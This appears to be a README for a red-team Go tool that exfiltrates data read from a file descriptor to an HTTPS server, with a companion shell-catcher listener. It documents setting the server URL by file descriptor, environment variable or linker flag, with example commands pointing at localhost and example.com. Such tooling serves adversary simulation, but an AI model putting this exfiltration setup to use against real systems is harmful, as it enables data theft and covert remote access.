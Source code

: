 Read From File Descriptor
=========================
Nearly the same as [`comms_without_dns`](../comms_without_dns) but exfills data
read from a file descriptor instead of from a named file.

The file descriptor number is hardcoded to 8.

A crude shell-catcher may be found in the
[`letsencryptshellcatcher`](../letsencryptshellcatcher) directory.
Run it with `-https /somepath`, and put the same `/somepath` in the server
URL.

URL File Descriptor
-------------------
The URL may be read file descriptor 7, and overrides the environment variable.

### Examples
Set the address via a heredoc:
```sh
./read_from_file_descriptor 7<<_eof
https://localhost:5555/somepath
_eof
```

Set just the address via bash's Here String:
```sh
./bin/read_from_file_descriptor 7<<<"https://localhost:5555/somepath"
```

Environment Variables
---------------------
The URL may be set with environment variables, overriding
compile-time settings, as follows

Default Variable        | Description
------------------------|------------
`ALPT4ATS_ADDRESS`      | HTTPS Server URL
`ALPT4ATS_REAL_ADDRESS` | Optional HTTPS Server IP:Port

The variable names may be changed at compile-time, as below.

Compile-time Config
-------------------
Compile time configuration is possible with the linker's `-X` (as in 
`go build -ldflags '-X main.Foo=bar'`).  The variables are as follows

Variable                                                       | Default                        | Description
---------------------------------------------------------------|--------------------------------|------------
[`main.Address`](./read_from_file_descriptor.go#L29)           | `https://localhost:4444/shell` | HTTPS Server URL
[`main.AddressEnvVar`](./read_from_file_descriptor.go#L30)     | `ALPT4ATS_ADDRESS`             | Environment variable which sets the HTTPS Server URL
[`main.RealAddressEnvVar`](./read_from_file_descriptor.go#L31) | `ALPT4ATS_REAL_ADDRESS`        | Environment variable which sets the server's real IP address and port

When building with the [Makefile](../../Makefile) these may be passed in with
the `LINKFLAGS` environment variable, as in
```sh
LINKFLAGS="-X main.Address=https://example.com:8080/notshell" make
```
